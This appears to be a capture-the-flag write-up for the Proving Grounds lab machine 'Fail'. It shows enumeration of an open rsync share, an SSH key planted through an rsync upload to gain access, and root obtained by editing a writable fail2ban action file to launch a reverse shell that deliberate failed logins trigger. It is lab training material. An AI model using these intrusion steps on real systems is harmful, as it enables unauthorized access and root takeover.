 ```yaml
---
layout: post
title: PG | Fail
subtitle: You shall not pass.
---
```


# Nmap Scan Results

~~~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-24 16:26 UTC
Nmap scan report for 192.168.194.126
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.36 seconds
~~~

# Service Enumeration

## Rsync (TCP/873)
Rsync is a directory sharing protocol used on Unix systems

The protocol can be scanned for available folders using an nmap script
~~~
nmap -sV --script "rsync-list-modules" -p 873 192.168.194.126
~~~
~~~
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox                 fox home
~~~

The contents of the fox folder revealed the contents of an empty home directory
~~~
rsync -av --list-only rsync://192.168.194.126/fox
~~~
~~~
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 14:21:59 .
lrwxrwxrwx              9 2020/12/03 20:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 04:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 04:12:36 .bashrc
-rw-r--r--            807 2019/04/18 04:12:36 .profile

sent 20 bytes  received 136 bytes  312.00 bytes/sec
total size is 4,562  speedup is 29.24
~~~

The contents of the fox folder can be retrieved and stored locally using the command
~~~
rsync -av rsync://192.168.194.126/fox ./rsyn_shared
~~~
These files reveal no useful information to further our progress.

Rsync also allows us to upload files, therefore we can generate a SSH key (as we have seen SSH TCP port 22 is enabled), then upload to the key to the machine using Rsync to
give us a remote connection to the machine.

# Exploitation

1. Generate SSH Key
~~~
┌──(kali㉿kali)-[~/Desktop/Fail]
└─$ ssh-keygen                                       
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:LvQfnvR+8TxNBfJBl+4vlOWFvrQu5HBkN6lzYPVXszk kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|             .. o|
|            . ++.|
|             +.*=|
|            = *E*|
|      . S  + =.==|
|     . o  . = B.o|
|      . o o= = Bo|
|       . + +o =.=|
|          +.o+...|
+----[SHA256]-----+
~~~

2. Copy our .ssh directory locally
~~~
cp -R /home/kali/.ssh .
~~~

3. Rename id_rsa.pub (our public key) to authorized_keys before transferring to the target
~~~
┌──(kali㉿kali)-[~/Desktop/Fail]
└─$ cd .ssh
┌──(kali㉿kali)-[~/Desktop/Fail/.ssh]
└─$ mv id_rsa.pub authorized_keys
~~~

4. Upload the .ssh file (containing authorized_keys) to Rsync
~~~
rsync -av /home/kali/Desktop/Fail/.ssh rsync://fox@192.168.194.126/fox
~~~

5. SSH into the target machine
~~~
┌──(kali㉿kali)-[~/Desktop/Fail/.ssh]
└─$ ssh -i ./id_rsa fox@192.168.194.126
The authenticity of host '192.168.194.126 (192.168.194.126)' can't be established.
ED25519 key fingerprint is SHA256:mqPCrimr9j626KOGoHM+qxgHUOYD4pu1+4KzhIvu5uA.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:37: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.194.126' (ED25519) to the list of known hosts.
Linux fail 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ id
uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)
$ 
~~~

# Privilege Escalation

After running Linpeas.sh a directory /etc/fail2ban was identified which is writable by our user

~~~
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                            
  Group fail2ban:                                                                                                                                                            
/etc/fail2ban/action.d                                                                                                                                                       
/etc/fail2ban/action.d/firewallcmd-ipset.conf
/etc/fail2ban/action.d/nftables-multiport.conf
/etc/fail2ban/action.d/firewallcmd-multiport.conf
/etc/fail2ban/action.d/mail-whois.conf
/etc/fail2ban/action.d/ufw.conf
#)You_can_write_even_more_files_inside_last_directory
~~~

A manual verification of this vulnerability was ran which identified full Read, Write, Execute (RWX) permissions over a file named action.d which is ran by Root

~~~
$ find /etc -writable -ls 2>/dev/null
   787482      4 drwxrwxr-x   2 root     fail2ban     4096 Dec  3  2020 /etc/fail2ban/action.d
~~~

After researching exploits for Fail2Ban an exploit I discovered an exploit within /etc/fail2ban/jail.conf [Exploit](https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49)

Inspecting /etc/fail2ban/jail.conf shows that Fail2Ban is configured to only allow 2 attempts before performing the banaction (maxretry) as shown below

![Fail](/assets/img/FailPG(1).png)

Further down it shows the banaction executes iptables-multiport, we have read-write permissions over iptables-multiport.conf as shown below

![Fail](/assets/img/FailPG(2).png)

![Fail](/assets/img/FailPG(3).png)

We then change the iptables-multiport.conf file's actionban= to include a reverse shell

Before

![Fail](/assets/img/FailPG(4).png)

After

![Fail](/assets/img/FailPG(5).png)

Start a listener on port 80

Attempt to log in with invalid credentials to execute the Fail2Ban and execute our reverse shell
~~~
┌──(kali㉿kali)-[~]
└─$ ssh root@192.168.194.126                    
root@192.168.194.126's password: 
Permission denied, please try again.
root@192.168.194.126's password: 
Permission denied, please try again.
root@192.168.194.126's password: 
root@192.168.194.126: Permission denied (publickey,password).
~~~
We then recieve our root shell on the netcat listener on port 80

![Fail](/assets/img/FailPG(6).png)
